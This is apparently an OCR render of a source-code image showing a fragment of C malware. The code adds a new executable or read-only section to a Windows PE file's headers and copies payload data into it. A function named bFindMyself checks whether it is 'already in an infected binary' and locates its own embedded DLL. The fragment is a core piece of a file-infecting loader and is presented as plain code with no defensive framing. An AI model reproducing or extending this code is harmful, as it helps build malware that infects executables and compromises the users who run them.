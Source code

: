 \documentclass{article}
\begin{document}
\begin{lstlisting}[frame=single]
    /* set new section header data */
    IMAGE_SECTION_HEADER newImageSectionHeader;
    memset(&newImageSectionHeader, '\0', sizeof(IMAGE_SECTION_HEADER));
    newImageSectionHeader.Misc.VirtualSize     = szSection;
    memcpy(&newImageSectionHeader.Name, sName, strnlen(sName, sizeof(newImageSectionHeader.Name)));
    newImageSectionHeader.PointerToRawData     = pointerToLastSection + sizeOfLastSection;
    newImageSectionHeader.PointerToRelocations = 0;
    newImageSectionHeader.SizeOfRawData        = XMemAlign(szSection, ppPtr->hdrOptional->FileAlignment, 0); /* aligned to FileAlignment */
    newImageSectionHeader.VirtualAddress       = XMemAlign(virtualSizeOfLastSection, ppPtr->hdrOptional->SectionAlignment, virtualAddressOfLastSection); /* aligned to Section Alignment */
    /* Loader is usually stored in an executable section, DLL in a readonly section.
     * The Loader does not execute code directly from section.
     * (see loader source for detailed info)
     */
    newImageSectionHeader.Characteristics      = (executable == TRUE ? IMAGE_SCN_MEM_READ | IMAGE_SCN_MEM_EXECUTE : IMAGE_SCN_MEM_READ);

    /* update FILE && OPTIONAL header */
    ++ppPtr->hdrFile->NumberOfSections;
    ppPtr->hdrOptional->SizeOfImage = XMemAlign(newImageSectionHeader.VirtualAddress + newImageSectionHeader.Misc.VirtualSize, ppPtr->hdrOptional->SectionAlignment, 0);

    /* (re)allocate memory for _full_ pe image (including all headers, new section and section data) */
    if (!(ppPtr->ptrToBuf = XReallocAbs(ppPtr->ptrToBuf, ppPtr->bufSiz, ppPtr->hdrOptional->SizeOfImage)))
        return FALSE;

    /* if everything is gone right, parsing should succeed */
    if (!bParsePE(ppPtr->ptrToBuf, ppPtr->hdrOptional->SizeOfImage, ppPtr, FALSE))
    {
        return FALSE;
    }

    /* copy new section header */
    memcpy(&ppPtr->hdrSection[ppPtr->hdrFile->NumberOfSections-1], &newImageSectionHeader, sizeof(IMAGE_SECTION_HEADER));
    /* copy new section data */
    memcpy(ppPtr->ptrToBuf+newImageSectionHeader.PointerToRawData, sectionContentBuf, szSection);

    return TRUE;
}

static BOOL bFindMyself(struct ParsedPE* ppe, DWORD* pDwBase, DWORD* pDwSize)
{
    SIZE_T siz = 0x0;
    DWORD startAdr = 0x0;

    /* Am I already in an infected binary? */
    if (ppe->hasDLL) {
        startAdr = (DWORD)ppe->ptrToDLL;
        siz = ppe->sizOfDLL;
    }
    /* dirty workaround e.g. when started from rundll.exe */
    if (!startAdr) {
        startAdr = getSectionAdr();
    }
    if (!siz) {
        siz = getImageSize();
    }
    /* check dwBase for valid memory region */
    if (startAdr)
    {
        *pDwBase = startAdr;
        *pDwSize = siz;
        if (_IsBadReadPtr((void*)startAdr, siz) == TRUE)
        {
            *pDwBase = 0x0;
            *pDwSize = 0x0;
            LOG_MARKER
        } else return TRUE;
    } else LOG_MARKER
    return FALSE;
}


\end{lstlisting}
\end{document}
